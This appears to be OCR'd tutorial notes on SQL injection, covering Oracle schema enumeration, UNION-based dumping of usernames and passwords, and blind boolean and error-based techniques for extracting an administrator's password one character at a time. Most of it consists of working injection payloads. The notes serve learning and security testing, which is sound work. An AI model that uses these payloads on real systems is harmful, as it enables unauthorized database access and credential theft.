 ```markdown
SELECT TABLE_NAME FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'
```

### Retrieving multiple values within a single column

You can retrieve multiple values together within this single column by concatenating the values together.

```sql
' UNION SELECT username || '~' || password FROM users-- -
```

---

## Blind SQLi

Blind SQLi occurs when an application is vulnerable to SQLi, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

### Triggering conditional responses

**Detection**

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

```sql
xyz' AND '1'='1
xyz' AND '1'='2
```

See differences in response. Watch for subtle changes you might miss in the render! Use Burp's comparer

**Extract data one piece at a time**

```sql
xyz' AND SUBSTRING((SELECT Psw FROM Users WHERE Username = 'Admin'), 1, 1) = 's
```

See the response to confirm that the first character of the password is `s`

We can continue this process to systematically extract data.

### Error-based SQL injection

**Blind SQLi with conditional errors**

Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.

* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
